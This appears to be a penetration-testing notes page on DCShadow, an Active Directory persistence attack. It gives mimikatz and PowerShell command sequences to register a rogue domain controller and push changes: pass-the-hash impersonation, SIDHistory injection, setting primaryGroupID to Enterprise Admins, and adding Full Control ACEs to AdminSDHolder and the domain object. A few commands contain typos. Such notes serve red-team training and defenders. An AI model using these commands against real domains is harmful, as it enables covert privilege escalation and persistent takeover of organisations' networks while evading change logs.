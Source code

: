 # AD - Forest Persistence - DCShadow

## Description

* DCShadow registers temporarily a new DC in the target domain and uses it to "push" attributes likes SIDHisotry, SPN etc. on a specific object. Without leaving change logs for modified object
* The new DC is registered by modifying the Configuration container, SPN of an existing computer object where the attackers runs the attack from and couple of RPC services
* Because the attribute are changed from a "DC", there are no dictory change logs on the actual DC for the target object.&#x20;
* What exactly was changed using DCShadow would not be visible, other Logs etc. of course will be generated

### Requirement

* Be default DA privs are required to use DCSHadow
* The attacker's machine must be part fo the root domain => If you have a Forest - you need to be DA on the forest
* Two mimikatz instances
*   DCShadow with minimal permissions by modifying the ACLS of:

    * Domain Object\
      DS-InstallReplica (Add-Remove Replica in Domain)\
      DS-Replication-Manage-Topology (Manage Replication Technology)\
      DS-Replication-Sychronize (Replication Synchronization)
    * The Sites object (and its children) in the Configuraiton container\
      CreateChild and DeleteChild
    * The object of the computer which is registered as a DC\
      WriteProperty (Not Write)
    * The target object\
      WriteProperty (Not Write)

    \==> Use _Set-DCShadowPermissions from Nishang_ for setting the permissions

### Tool

**Process**\
One mimikatz instance to start RPC server with SYSTEM privs and specific attributes set:\
!+\
!processtoken\
token::whoami\
lsadump::dcshadow /object:targetUsername /attrubte:Description /value="New Value of Description"\
&#x20;  this will set a new description for the user\
PowerView: Get-NetUser targetUsername\


Second mimikatz instance with enough privs (DA or otherwise like minimal permissions) to push the values:\
Start mimikatz.exe because Invoke-Mimikatz does not show proper output for dcshadow\
privilege::debug\
sekurlsa:pth /user:Administrator /domain:dom.local /ntlm:hash /impersonate\
lsadump::dcshadow /push\
token::whoami

**Using Nishang to set minimal Permissions to target object / Use DCShadow as user currentuser to modify username1 object from machine attacker-machine-hostname**

{% code overflow="wrap" %}
```
Set-DCShadowPermissions -FakeDC attacker-machine-hostname -samaccountname username1 -username currentuser -verbose 
==> now only 1 Mimikatz sessions is requried because username1 can be used and only do lsadump::dcshadow /push
```
{% endcode %}

**Once we have permissions, set SIDHistory of a user account to Enterprise Admin or Domain Admin**&#x20;

{% code overflow="wrap" %}
```
lsadump::dcshadow /object:user1 /attribute:SIDHistory /value:S-1-5......

To use without DA, see above:
Set-DCShadowPermissions -FakeDC attacker-machine-hostname -samaccountname username1 -username currentuser -verbose
```
{% endcode %}

**Once we have permissions, set primaryGroupID of a user account to Enterprise Admin or Domain Admin e**

{% code overflow="wrap" %}
```powershell
lsadump::dcshadow /object:user1 /attribute:primaryGroupID /value:519

Note: The user show up as member of EA in some enumeration like net group "Enterpise Admins" /domain
```
{% endcode %}

**Modify ntSecurityDescriptor for AdminSDHolder to add Full Fontrol for a User**

<pre data-overflow="wrap"><code>Get the current ACL for AdminSDHolder:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=dom,DC=local")).psbase.ObjectSecurity.sddl

Just need to append a Full Control ACE from above for SY/BA/DA with our users SID at the end 
<strong>lsadump::dcsahdow /object:CN=AdminSDHolder,CN=System,DC=dom,DC=local /attribute:ntSecurityDescriptor /value:[full modified ACL from above plus following](A;;CC...;;SIDfromyourUser)
</strong></code></pre>

**Shadowception - Run DCShadow from DCShadow itself**&#x20;

{% code overflow="wrap" %}
```
Get the current ACL for the domain:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=dom,DC=local")).psbase.ObjectSecurity.sddl | set-clipboard

Append the following ACEs with our User SID on the domain object (see above):
```
{% endcode %}

![](<../.gitbook/assets/image (4).png>)

<pre><code><strong>On the attacker computer object (A;;WP;;;UserSID)
</strong>On the target user object (so that it can modify its own attributes) (A;;WP;;;UserSID)
On the sites object in configuration container (A;CI;CCDC;;;UserSID)

lsadump::dcshadow /stack /object:DC=dom,DC=local /attribute:ntSecurityDescriptor /value:[full modified ACL from above plus following from above]
==> Do this for all 3 domain object, attacker computer, target user and sites object
</code></pre>


